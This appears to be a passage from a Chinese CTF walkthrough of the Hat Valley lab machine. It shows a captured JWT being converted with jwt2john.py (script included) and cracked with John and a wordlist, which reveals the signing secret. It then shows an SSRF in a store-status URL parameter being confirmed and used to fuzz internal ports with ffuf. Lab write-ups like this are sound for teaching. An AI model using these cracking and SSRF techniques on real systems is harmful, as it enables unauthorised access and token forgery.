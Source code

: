 用脚本把这个JWT token转换成john格式，然后用john工具破解

https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py

  

  * 

    
    
    > python3 jwt2john.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjY3MDE3MTU3fQ.M5Yx5hMqtxf3hxrIJSjdLSdubkP6gFPtGzwsDDr7voI > jwt_hash

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/env python3import sysfrom jwt.utils import base64url_decodefrom binascii import hexlify  
      
    def jwt2john(jwt):    """    Convert signature from base64 to hex, and separate it from the data by a #    so that John can parse it.    """    jwt_bytes = jwt.encode('ascii')    parts = jwt_bytes.split(b'.')  
        data = parts[0] + b'.' + parts[1]    signature = hexlify(base64url_decode(parts[2]))  
        return (data + b'#' + signature).decode('ascii')  
      
    if __name__ == "__main__":    if len(sys.argv) != 2:        print("Usage: %s JWT" % sys.argv[0])    else:        john = jwt2john(sys.argv[1])        print(john)

  * 

    
    
    > john -w=/usr/share/wordlists/rockyou.txt jwt_hash

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193059.png)

获取到JWT token的secret值为`123beany123`，用`JWT Debugger`尝试，暂时没发现什么

## SSRF

想起刚才发现的另一个API，api/store-status?url="http://store.hat-valley.htb"，可能存在SSRF

尝试http://127.0.0.1:80，被重定向到http://store.hat-valley.htb，证实存在SSRF

  

  * 

    
    
    http://hat-valley.htb/api/store-status?url="http://127.0.0.1:80"-->http://store.hat-valley.htb

  * 

    
    
    ffuf -w /usr/share/seclists/Fuzzing/4-digits-0000-9999.txt -u 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"' -fs 0

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193100.png)
